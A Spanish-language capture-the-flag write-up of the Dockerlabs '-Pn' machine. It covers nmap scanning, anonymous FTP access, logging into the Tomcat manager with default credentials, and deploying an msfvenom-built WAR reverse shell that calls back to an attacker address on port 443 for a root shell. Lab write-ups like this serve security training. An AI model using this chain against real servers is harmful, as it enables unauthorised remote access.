

# Writeup de la Máquina -Pn de Dockerlabs

Lo primero que hago es realizar un escaneo de todos los puertos que tenga abiertos la máquina con la herramienta nmap.

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
```


Una vez realizado el escaneo recojo los puertos abiertos con la utilidad extractPorts, del fichero donde se ha guardado el escaneo de nmap. 

```bash
extractPorts allPorts
```


Teniendo los puertos copiados procedo a ejecutar un escaneo más profundo solo para los puertos 21 y 8080 con nmap.

```bash
sudo nmap -p21,8080 -sCV 172.17.0.2 -oN targeted
```


Al terminar el escaneo veo que tiene habilitado el usuario anonymous para hacer login en el servicio FTP. Así que procedo a connectarme y listar el conteidos

```bash
ftp 172.17.0.2
```


Una vez dentro observo que hay un archivo llamado tomcat.txt, este me lo bajo y miro su contenido.


Este indica que se tiene que configurar el servidor tomcat que tiene pinta que se esta corriendo en puerto 8080. Para ver esto compruebo las tecnologias con whatweb.

```bash
whatweb http://172.17.0.2:8080
```


Efectivamente saca que es un servidor tomcat, sabiendo esto decido entrar a la interfaz web. En esta intento entrar al Tomcat Web Application Manager, para hacer esto entro a la url 172.17.0.2:8080/manager/html. Cuando intentas acceder te pide que inicies sesión con unas credenciales, así que procedo a buscar las credenciales por defecto de tomcat y con el usuario tomcat y la contraseña s3cr3t me permite entrar.


Una vez estando dentro creo con msfvenom una reverse shell en un archivo .war malicioso.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.76 -f war -o revshell.war
```


Una vez creado voy al apartado de desplegar un archivo war y selecciono la reverse shell que he creado anteriormente. Una vez desplegada me pongo en escucha en el puerto 443 con netcat y accedo a la url.


Una vez accedido a la url llega la shell a puerto 443 ya como el usuario root.


